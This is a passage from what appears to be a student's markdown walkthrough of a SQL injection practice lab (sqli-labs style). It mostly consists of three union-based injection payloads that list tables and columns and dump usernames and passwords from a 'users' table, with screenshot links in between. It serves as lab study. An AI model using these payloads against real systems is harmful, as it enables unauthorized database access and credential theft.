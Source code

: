 

```
") union select group_concat(table_name),2 from information_schema.tables where table_schema="security"#
```

![image-20220115133947750](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115133947750.png)



```
") union select group_concat(column_name),2 from information_schema.columns where table_schema="security" and table_name="users"#
```

![image-20220115134029215](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115134029215.png)



```
") union select group_concat(username),group_concat(password) from users #
```

![image-20220115134324515](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115134324515.png)







# less13

`\`

![image-20220115134435057](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115134435057.png)
